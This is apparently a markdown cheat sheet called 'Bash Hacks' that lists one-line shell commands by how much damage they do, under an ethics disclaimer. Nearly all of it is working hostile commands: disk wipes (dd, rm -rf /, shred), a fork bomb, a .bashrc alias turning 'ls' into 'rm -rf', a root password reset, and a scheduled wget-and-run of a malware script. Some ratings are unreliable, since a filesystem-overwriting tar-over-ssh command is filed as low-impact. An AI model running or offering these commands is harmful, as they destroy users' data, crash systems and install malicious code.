

# Bash Hacks

``` bash
DANGER, DONT-EVER-DO-IT !!!

Document version v1.0.1
```




## **Disclaimer**
*This document provides some examples on how Bash-scripting can be utilized in hacking contexts. The information is meant to enhance understanding and applications of Bash scripting and Linux/Unix System commands.*

### **Important**

**Ethical Use**: The reader is strongly advised to use this knowledge responsibly and ethically.

**Legal Compliance**: Never execute these commands in production environments.

**No Liability**: Any damage caused by the misuse or misunderstanding of the information provided is your own responsibility.

___


#### **1. Non-Destructive or Low-Impact Commands**
Commands that have minimal impact on the system.

- `cat /dev/urandom | hexdump -C | grep "ca fe"` - Searches for the hex pattern "ca fe" in random data.
- `while true; do head -n 100 /dev/urandom; sleep .1; done` - Continuously prints random data to the terminal.
- `cat /dev/sda | gzip -9 > sda.img.gz` - Creates a compressed image of the entire disk `/dev/sda`.
- `tar cf - / | ssh user@host "tar xf - -C /"` - Archives the entire filesystem and extracts it on a remote host.

---

#### **2. Annoyance or Minor Disruption**
Commands that disrupt or cause minor issues but are not destructive.

- `echo "You have been hacked!" | wall` - Sends a message to all users logged into the system.
- `echo "You have been hacked!" > /etc/motd` - Overwrites the message of the day (MOTD) with a custom message.
- `echo "You have been hacked!" | mail -s "Hacked" user@example.com` - Sends an email with the subject "Hacked" to the specified user.
- `while true; do echo "You have been hacked!"; done` - Continuously prints a message to the terminal.
- `echo "You have been hacked!" > /dev/tty1` - Sends a message to the first virtual console.
- `echo "You have been hacked!" > /dev/ttyS0` - Sends a message to the first serial port.
- `echo "You have been hacked!" > /dev/ttyUSB0` - Sends a message to the first USB serial device.
- `echo "You have been hacked!" > /dev/ttyAMA0` - Sends a message to the first AMBA serial device.
- `echo "You have been hacked!" > /dev/ttyO0` - Sends a message to the first OMAP serial device.
- `cat /dev/urandom | tee /dev/pts/* > /dev/null` - Sends random data to all open terminal sessions.

---

#### **3. File or System Manipulation**
Commands that modify files or system behavior but are not immediately destructive.

- `echo "echo 'You have been hacked!'" >> ~/.bashrc` - Appends a message to the user's `.bashrc` file, displaying it on every terminal login.
- `echo "alias ls='rm -rf'" >> ~/.bashrc` - Creates a malicious alias for `ls` that deletes files instead of listing them.
- `find / -name "*.txt" -exec rm -f {} \;` - Deletes all `.txt` files on the system.
- `chmod -R 000 /` - Recursively removes all permissions from all files and directories starting from root.
- `find / -type f -exec chmod 000 {} \;` - Recursively removes all permissions from all files on the system.
- `echo "root:password" | chpasswd` - Changes the root password to "password" (requires root privileges).

---

#### **4. Destructive Commands**
Commands that can cause significant damage to the system or data.

- `dd if=/dev/zero of=/dev/sda` - Overwrites the entire disk `/dev/sda` with zeros (destructive).
- `mkfs.ext4 /dev/sda1` - Formats the partition `/dev/sda1` with the ext4 filesystem (destructive).
- `dd if=/dev/sda of=/dev/sdb` - Clones the entire contents of `/dev/sda` to `/dev/sdb`.
- `while true; do dd if=/dev/zero of=/dev/sda bs=1M; done` - Continuously overwrites `/dev/sda` with zeros.
- `find / -type f -exec shred -u {} \;` - Securely deletes all files on the system by overwriting them with random data.
- `rm -rf /` - Recursively deletes all files starting from the root directory (extremely destructive).

---

#### **5. System Crashes or Denial of Service**
Commands that can crash the system or cause it to become unresponsive.

- `:(){ :|:& };:` - Fork bomb: creates a function that calls itself recursively, spawning processes until the system crashes.
- `while true; do killall -9 bash; done` - Continuously kills all `bash` processes on the system.
- `cat /dev/urandom > /dev/fb0` - Fills the framebuffer with random data, potentially crashing the graphical display.
- `cat /dev/zero > /dev/mem` - Attempts to overwrite system memory with zeros, likely crashing the system.
- `echo 1 > /proc/sys/kernel/sysrq; echo b > /proc/sysrq-trigger` - Triggers an immediate system reboot using the Magic SysRq key.

---
<div style="page-break-before: always;"></div>

#### **6. Remote Exploitation or Malware**
Commands that involve remote exploitation or downloading/executing malicious scripts.

- `echo "wget http://example.com/malware.sh -O- | sh" | at now + 1 minute` - Schedules a command to download and execute a script in one minute.

``` bash
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
L       III  N   N  U   U  X   X      H   H   AAAAA  CCCC  K   K  SSSS
L        I   NN  N  U   U   X X       H   H  A     A C      K  K  S
L        I   N N N  U   U    X        HHHHH  AAAAAAA C      KKK   SSS
L        I   N  NN  U   U   X X       H   H  A     A C      K  K     S
LLLLL   III  N   N   UUU   X   X      H   H  A     A  CCCC  K   K  SSSS
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
DONT-EVER-DO-IT !!!
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
```
